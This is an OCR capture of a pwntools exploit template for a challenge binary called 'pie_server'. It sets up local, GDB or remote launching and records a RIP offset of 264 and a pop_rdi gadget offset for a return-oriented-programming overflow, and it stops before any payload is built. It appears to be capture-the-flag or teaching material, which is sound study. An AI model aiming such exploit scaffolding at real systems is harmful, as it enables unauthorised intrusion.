       # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      # Specify your GDB script here for debugging
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      # Set up pwntools for the correct architecture
      exe = './pie_server'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Enable verbose logging so we can see exactly what is being sent (info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      # Offset to RIP, found manually with GDB
      offset = 264
      
      # Start program
      io = start()
      
      # Offset of pop_rdi gadget from ropper
      # We need to find the PIEBASE before we can use
      pop_rdi_offset = 0x12ab
      